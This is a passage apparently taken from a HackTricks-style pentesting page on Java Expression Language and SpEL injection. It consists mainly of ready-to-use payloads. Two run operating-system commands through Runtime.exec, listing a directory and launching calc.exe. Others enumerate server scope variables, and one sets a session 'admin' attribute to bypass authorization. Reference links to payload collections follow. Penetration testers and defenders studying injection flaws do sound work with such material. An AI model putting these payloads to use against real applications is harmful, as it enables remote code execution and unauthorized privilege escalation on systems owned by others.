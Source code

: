 ```java
T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec("cmd /c dir").getInputStream())
''.class.forName('java.lang.Runtime').getRuntime().exec('calc.exe')
```

### Inspecting the environment

* `applicationScope` - global application variables
* `requestScope` - request variables
* `initParam` - application initialization variables
* `sessionScope` - session variables
* `param.X` - param value where X is the name of a http parameter

You will need to cast this variables to String like:

```bash
${sessionScope.toString()}
```

#### Authorization bypass example

```bash
${pageContext.request.getSession().setAttribute("admin", true)}
```

The application can also use custom variables like:

```bash
${user}
${password}
${employee.FirstName}
```

## References

* [https://techblog.mediaservice.net/2016/10/exploiting-ognl-injection/](https://techblog.mediaservice.net/2016/10/exploiting-ognl-injection/)
* [https://www.exploit-db.com/docs/english/46303-remote-code-execution-with-el-injection-vulnerabilities.pdf](https://www.exploit-db.com/docs/english/46303-remote-code-execution-with-el-injection-vulnerabilities.pdf)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#tools](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#tools)
* [https://github.com/marcin33/hacking/blob/master/payloads/spel-injections.txt](https://github.com/marcin33/hacking/blob/master/payloads/spel-injections.txt)
<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>
